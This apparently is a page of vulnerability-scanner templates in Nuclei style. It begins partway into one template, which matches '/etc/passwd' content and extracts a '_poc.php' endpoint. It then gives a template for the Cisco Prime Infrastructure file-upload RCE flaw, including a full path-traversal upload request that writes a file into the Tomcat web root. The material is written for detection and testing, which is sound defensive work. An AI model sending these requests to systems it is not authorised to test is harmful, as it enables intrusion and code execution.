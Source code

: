 **Type - regex**

- part - body
- regex
  1. root:.\*:0:0:
- condition - and

### Extractors

**Type - regex**

- name - endpoint
- part - body
- internal - True
- regex
  1. (?:[a-zA-Z0-9+\/])\*\_poc.php

---

# Cisco Prime Infrastructure and Cisco Evolved Programmable Network Manager - Remote Code Execution

## Description

- Cisco Prime Infrastructure (PI) and Cisco Evolved Programmable Network (EPN) Manager could allow an authenticated, remote attacker to execute code with root-level privileges on the underlying operating system. This vulnerability exist because the software improperly validates user-supplied input. An attacker could exploit this vulnerability by uploading a malicious file to the administrative web interface. A successful exploit could allow the attacker to execute code with root-level privileges on the underlying operating system.
- severity - critical
- tags - cve,cve2019,rce,fileupload,unauth,intrusive,cisco

## Requests

### Step - 1

```
POST /servlet/UploadServlet HTTP/1.1
Host: {{Hostname}}
Accept-Encoding: gzip, deflate
Primary-IP: 127.0.0.1
Filename: test.tar
Filesize: 10240
Compressed-Archive: false
Destination-Dir: tftpRoot
Filecount: 1
Content-Length: 269
Content-Type: multipart/form-data; boundary=871a4a346a547cf05cb83f57b9ebcb83

--871a4a346a547cf05cb83f57b9ebcb83
Content-Disposition: form-data; name="files"; filename="test.tar"

../../opt/CSCOlumos/tomcat/webapps/ROOT/test.txt0000644000000000000000000000000400000000000017431 0ustar  00000000000000{{randstr}}
--871a4a346a547cf05cb83f57b9ebcb83--

```
